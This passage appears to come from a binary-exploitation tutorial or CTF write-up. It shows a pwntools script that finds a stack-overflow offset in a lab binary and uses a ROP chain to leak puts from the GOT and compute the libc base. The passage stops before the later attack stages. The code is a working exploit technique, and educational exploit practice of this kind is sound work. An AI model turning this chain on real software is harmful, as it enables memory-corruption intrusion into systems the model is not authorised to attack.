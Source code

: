 We expand our previous python script with a new function `find_libc_base`
```python
#!/usr/bin/env python3

from pwn import *

exe = context.binary = ELF("./vuln_patched", checksec=False)
libc = ELF("./libc.so.6", checksec=False)

# Set output level (critical, error, warning, info (default), debug)
context.log_level = "info"

PROMPT = b'WeLcOmE To mY EcHo sErVeR!\n'

def find_offset(payload):
    # Launch process
    p = process([exe.path])
    # Send the payload
    p.sendlineafter(PROMPT, payload)
    # Wait for the process to crash
    p.wait()
    # Read pattern from the coredump file and then print it
    pattern = p.corefile.read(p.corefile.sp, 4).decode()
    log.info(f"4-byte pattern is: {pattern}")
    # Calculate the offset and then print it
    offset = cyclic_find(pattern)  
    log.info(f"Offset is: {offset}")
    # Cleanup core files
    os.system("rm core.* > /dev/null")
    return offset


def find_libc_base():
    # From ropper
    pop_rdi = 0x400913

    # Build the payload
    payload = flat({
        offset: [
            pop_rdi,
            exe.got.puts,
            exe.plt.puts,
            exe.symbols.do_stuff
        ]
    })

    io.sendlineafter(PROMPT, payload)
    io.recvline()

    # Retrieve GOT puts address
    got_puts = unpack(io.recv()[:6].ljust(8, b'\x00'))
    log.info("Leaked GOT puts address: %#x", got_puts)

    # Subtract puts offset to get libc base
    libc_base = got_puts - libc.symbols.puts
    log.info("Libc base address: %#x", libc_base)
    return libc_base
    

offset = find_offset(cyclic(200))

io = process([exe.path])

# Stage 1 - Leak puts address to calculate Libc base
```